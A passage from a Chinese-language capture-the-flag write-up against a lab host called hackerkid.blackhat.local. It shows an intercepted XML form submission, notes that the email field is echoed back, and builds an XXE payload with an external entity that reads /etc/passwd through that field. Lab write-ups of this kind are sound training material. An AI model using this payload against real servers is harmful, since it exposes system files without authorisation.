 抓到如下数据包

```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: text/plain;charset=UTF-8
Content-Length: 122
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><root><name>a</name><tel>a</tel><email>a@qq.com</email><password>a</password></root>
```

**可以看见提交的<u>xml格式</u>的数据，并且我们<u>不管在emai插入任何字段，服务器都原封不动的返回</u>。于是猜测存在返回型xxe漏洞。**



使用CyberChef的xml美化功能，美化一下为
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>a@qq.com</email>
	<password>a</password>
</root>
```

插入引入外部实体的代码。

`<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'file:///etc/passwd'>]>`

由**于只有email处有回显，所以写成`&xxetest;`，这样就能看到引入的外部实体文件的结果了。**

![](../images/pics/打靶/20.jpg)

### 可登录账号
